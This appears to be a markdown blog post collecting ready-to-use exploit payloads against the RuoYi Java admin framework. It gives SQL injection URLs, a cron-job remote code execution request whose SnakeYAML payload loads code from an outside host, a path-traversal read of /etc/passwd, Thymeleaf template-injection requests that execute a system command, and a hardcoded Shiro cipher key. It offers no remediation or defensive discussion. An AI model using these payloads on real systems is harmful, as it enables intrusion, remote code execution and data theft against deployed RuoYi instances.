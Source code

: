```yaml
---
layout: post
title: "::若依:: vulnerability summary"
date: 2022-10-08 17:00:43+800
toc: true
wrench: 2024-04-29
author: Bin4xin
categories:
- blog
tags:
- CVE
- 信息搜集
- vulnerability
---
```


## SQL inject

### sqli-1
```
/prod-api/system/user/list?pageSize=&params%5bdataScope%5d=and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))
```

### sqli-2

```
/prod-api/system/role/list?params%5bdataScope%5d=and+extractvalue(1,concat(0x7e,(select+database()),0x7e))
```

## CRON job RCE

### create 

```
POST /prod-api/monitor/job HTTP/1.1
Host: ***
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8

{"jobName":"123","jobGroup":"DEFAULT","invokeTarget":"org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"https://host/\"]]]]')","cronExpression":"0/20 * * * * ?","misfirePolicy":1,"concurrent":"0","status":"0"}
```

### list

```
/prod-api/monitor/job/list
```

### run 

```
PUT /prod-api/monitor/job/run HTTP/1.1
Host: ***
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8

{"jobId":8,"jobGroup":"DEFAULT"}
```

## local file read

```
/common/download/resource?resource=/profile/../../../../etc/passwd
```

## thymeleaf SSTI RCE

```
POST /monitor/cache/getNames HTTP/1.1

fragment=__${T%20(java.lang.Runtime).getRuntime().exec('open -a Calculator')}__::.x
```

```
POST /prod-api/monitor/cache/getNames HTTP/1.1

fragment=__${T%20(java.lang.Runtime).getRuntime().exec('open -a Calculator')}__::.x
```

## Shiro

`CipherKey=fCq+/xW488hMTCD+cmJ3aQ==`

## ref

- [RuoYi若依](https://github.com/ax1sX/SecurityList/blob/main/Java_OA/RuoYi.md)
